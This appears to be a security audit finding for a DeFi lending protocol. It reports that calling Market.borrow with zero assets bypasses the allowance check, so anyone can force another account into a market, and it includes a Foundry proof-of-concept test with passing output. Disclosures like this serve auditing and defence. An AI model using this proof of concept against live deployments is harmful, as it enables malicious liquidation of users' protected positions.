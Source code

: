 however,  this method does not determine that `assets` cannot be 0. If the user specifies `assets=0` then the security check for allowances can be skipped, and the `borrower` will enter the market after the method is executed successfully

### POC

The following code demonstrates that no allowances are needed to let the `borrower` enter the market

add to `Market.t.sol`
```solidity
  function testAnyoneEnterMarket() external {
    (,, uint8 index,,) = auditor.markets(
      Market(address(market))
    );
    bool inMarket = auditor.accountMarkets(BOB) & (1 << index) == 1;
    console2.log("bob in market(before):",inMarket);
    console2.log("anyone execute borrow(0)");
    vm.prank(address(0x1230000123)); //anyone
    market.borrow(0, address(this), BOB);
    inMarket = auditor.accountMarkets(BOB) & (1 << index) == 1;
    console2.log("bob in market(after):",inMarket);
  }  
```

```console
$ forge test -vvv --match-test testAnyoneEnterMarket

Ran 1 test for test/Market.t.sol:MarketTest
[PASS] testAnyoneEnterMarket() (gas: 172080)
Logs:
  bob in market(before): false
  anyone execute borrow(0)
  bob in market(after): true

```

## Impact

The current protocol makes a strict distinction between enter market or not.
A user can be a simple `LP` to a market and not participate in borrowing or collateralization, which is then protected and cannot be used as a `seize market` for liquidation purposes.
At the same time, if the user does not enter the market, then the user can access the assets as they wish without constraints.
And so on.
If any person can maliciously allow others to enter the market to break the rules. 
For example, maliciously liquidating `seize` a protected market

## Code Snippet
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L167
## Tool used
